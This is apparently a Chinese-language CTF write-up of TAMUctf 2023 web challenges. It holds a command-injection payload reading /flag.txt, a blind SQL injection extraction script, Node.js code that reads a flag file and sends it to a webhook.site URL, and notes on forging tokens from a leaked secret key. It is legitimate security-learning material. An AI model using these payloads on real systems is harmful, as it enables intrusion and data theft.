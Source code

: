 
# web
### connect
源码
```python
import flask
import os

def escape_shell_cmd(data):
    for char in data:
        if char in '&#;`|*?~<>^()[]{}$\\':
            return False
        else:
            return True

app = flask.Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    return flask.render_template('index.html')

@app.route('/api/curl', methods=['POST'])
def curl():
    url = flask.request.form.get('ip')
    if escape_shell_cmd(url):
        command = "curl -s -D - -o /dev/null " + url + " | grep -oP '^HTTP.+[0-9]{3}'"
        output = os.popen(command).read().strip()
        # print(output)
        if 'HTTP' not in output:
            return flask.jsonify({'message': 'Error: No response'})
        return flask.jsonify({'message': output})

    else:
        return flask.jsonify({'message': 'Illegal Characters Detected'})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001)
```
问题出在这个函数,只能对第一个字符进行判断,根据第一个字符直接返回bool,属于逻辑漏洞
```python
def escape_shell_cmd(data):
    for char in data:
        if char in '&#;`|*?~<>^()[]{}$\\':
            return False
        else:
            return True
```
payload
```shell
?ip=%0Aecho "HTTP" `cat /flag.txt`%0A
```
### Logical
#sql
```python
import requests
#用这里的语句分别替换id中的内容即可爆库、表、字段
#select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA
#select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'xxx'
#select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA = 'xxx' and TABLE_NAME = 'xxx'
dic='0123456789abcdefghijklmnopqrstuvwxyz,}{_#-'
url='http://logical.tamuctf.com/api/chpass'
headers = {
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "keep-alive",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://logical.tamuctf.com",
    "Referer": "http://logical.tamuctf.com/",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
}
string=''
for i in range(11,100):
    for j in dic:
        # payload="username=kjie' || if(,1,0)-- "
        id="username=kjie' || substr((select password from users where username='admin'),{0},1)={1} -- ".format(str(i),ascii(j))
        print("current:",i,":",j)
        r=requests.post(url,data=id,headers=headers, verify=False)
        #盲注条件判断
        if "not exists" not in r.text:
            string+=j
            print(string)
            break

print(string)
```


### Migraine
#nodejs
```js
const path = require('path');
const express = require("express");
const app = express();
const port = 8000;

app.use(express.json());

process.on('uncaughtException', (err, origin) => {
    console.log(err);
});

app.get("/", function (req, res) {
    res.sendFile(path.join(__dirname+'/static/index.html'));
});

app.post("/", function (req, res) {
    var src = req.body['src'];
    console.log(src);

     if (src.match(/[A-Za-z0-9]/) != null) {
         res.status(418).end('Bad character detected.');
         return;
     }

    try {
        eval(src);
    } catch(err) {
        res.status(418).end('Error on eval.');
        return;
    }

    res.status(200).send('Success!');
    return;
});

app.listen(port, function () {
    console.log(`Example app listening on port ${port}!`);
});
```
nodejs版的无字母数字RCE,刚开始想的jsfuck就可以,但是jsfuck属于浏览器js,没有require关键字

--- 
>Unfortunately, `require` doesn't work inside JSFuck. Instead, we can use the global `process` object to access system APIs
>

```js
var url = "https://webhook.site/9da0ee84-9e58-4b73-a38b-635b77f325f0";
var n = 100;
var buffer = Buffer.allocUnsafe(n);
var fs = process.binding('fs');
var path = "flag.txt";
// I don't know what these args actually are, but an exception told me to use this many args
var fd = fs.open(path, 2, 3, 4, 5);
// one of these seeks, so make it zero lmao
fs.read(fd, buffer, 0, n, 0, 0, 0);
var flag = buffer.toString();
console.log(flag)
fetch(url + "?flag=" + flag);
```
😵为啥我外带不出来

### Blackbox
存在文件包含漏洞,但是限制了后缀为php&& `set_include_path('/templates');`

```php
//const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';  在config.php下
function verify_token(string $token) { 
  $token_data = explode('.', $token);
  if(hash('md5', SECRET_KEY . $token_data[0]) == $token_data[1]) {
    return true;
  }
  return false;
}
function is_admin(string $token) {

  if(verify_token($token)) {
    $db = new SQLite3(DB_FILE);

    $data = json_decode(base64_decode(explode('.', $token)[0]), TRUE);
    $username = $data['username'];
    $user_key = $data['user_key'];
    $admin = $data['admin'];

    $statement = $db->prepare('SELECT * FROM users WHERE username=:uname AND key=:ukey;');
    $statement->bindValue(':uname', $username);
    $statement->bindValue(':ukey', $user_key);
    $result = $statement->execute();

    if($result != false && $result->fetchArray() != false && $admin == true) {
      return true;
    }
    return false;
  }
}
```
1. token 必须满足 verify_token函数,在有SECRET_KEY的条件下很容易满足
2. 会对解码后的data进行一次数据库查询操作,又因为是预编译,我们无法注入,所以要想办法拿到一条数据

---
#sqlite
唉,git泄露,使用`git-dumper` 可以拿到 .db文件 ,然后[获取key值](https://inloop.github.io/sqlite-viewer/)再伪造token
![[Pasted image 20230503001117.png]]

[[Tricks#LFI2RCE]]
LFI2RCE 也可拿下
# reverse
- 
# pwn
- 
# crypto
- 
# Misc
- 

---
*相关wp*
https://github.com/tamuctf/tamuctf-2023



2023-04-3016:59